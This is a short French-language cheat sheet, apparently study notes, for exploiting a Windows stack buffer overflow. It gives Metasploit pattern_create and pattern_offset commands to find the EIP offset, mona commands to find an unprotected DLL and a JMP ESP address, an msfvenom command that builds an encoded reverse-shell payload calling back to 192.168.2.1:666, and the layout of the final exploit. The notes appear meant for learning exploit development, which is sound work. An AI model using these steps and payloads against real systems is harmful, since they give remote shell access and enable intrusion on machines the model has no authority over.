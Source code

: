 ## Reverse

- Création d'un pattern d'une longueur de 800
```bash
/opt/metasploit/tools/exploit/pattern_create.rb -l 800
```
- Envoie du pattern dans la section vulnérable
- Lire la valeur de EIP dans le débuggeur lorsque le programme à planté
- Calcul de l'offset
```bash
/opt/metasploit/tools/exploit/pattern_offset.rb -l 800 -q <value EIP>
```
- Vérifier que l'offset est correcte en écrivant  `offset * "A" + 4 * "B"` dans la section. La valeur de l'EIP doit être `42424242`
 - vérifier la place dispo pour la Payload, envoyant dans la section `offset * "A" + 4 * "B" + 80 * "C"`. Les "C" doivent être écrit dans la mémoire.
- chercher une DLL qui n'est pas sécurisé(Rebase, ASLR : False)
```
!mona modules
```
- vérifier la présence d'une instruction dans une DLL et liste les adresses de où se trouve l'instruction JMPESP (l'opcode de JMPESP est `\xff\xe4` ) 
```
!mona find -s "\xff\xe4" -m slmfc.dll
```
- Création d'un reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1  
LPORT=666 -f c -e x86/shikata_ga_nai -b "\x00\x0D\xFF"
```

| Paramètre | Valeur                    | Description            |
| --------- | ------------------------- | ---------------------- |
| -p        | windows/shell_reverse_tcp | type de payload        |
| LHOST     | 192.168.2.1               | adresse ip du listener |
| LPORT     | 666                       | port du listener       |
| -f        | c                         | export au format C     |
| -e        | x86/shikata_ga_nai        | encodeur               |
| -b        | "\x00\x0D\xFF"            | liste des Badchar      |
- Maintenant, créer l'exploit avec :
```
offset + Adresse de JMPESP(inversé) + nb * NoP + Shellcode
```
